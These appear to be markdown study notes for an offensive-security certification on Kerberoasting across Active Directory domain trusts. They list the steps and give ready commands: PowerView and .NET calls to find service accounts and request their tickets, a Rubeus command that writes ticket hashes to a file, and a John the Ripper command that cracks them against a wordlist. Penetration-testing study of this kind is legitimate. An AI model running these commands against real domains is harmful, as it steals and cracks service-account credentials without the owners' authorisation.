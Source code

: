 # Methodology
> 1. Enumerate what user account running as a service account we want to kerberoast.
> 2. Make sure it's not a honey pot account.
> 3. Make sure is a user made account, we don't want machine accounts since they have long passwords.
> 5. Kerberoast the user account.
> 7. Crack the ticket. 

>**ℹ️ Info:**
>Accross domain/forests trusts there is no need to use `/opsec`, AES256 is not used by default so no downgrade encryption needed!

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Find users that have an SPN set:**
```powershell
Get-DomainTrust | ?{$_.TrustAttributes -eq 'FILTER_SIDS'} | %{Get-DomainUser -SPN -Domain $_.TargetName}
```

**Request a TGS accross trusts:**
```powershell
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken - ArgumentList MSSQLSvc/eu-file.eu.local@eu.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## Rubeus
**Request a TGS accross trusts:**
```cmd
Rubeus.exe kerberoast /user:storagesvc /simple /domain:eu.local /outfile:euhashes.txt
```


# Ticket Crack
https://www.openwall.com/john/k/john-1.9.0-jumbo-1-win64.zip

**Using John**:
```cmd
john-1.9.0-jumbo-1-win64\run\john.exe -- wordlist=rockyou.txt euhashes.txt
```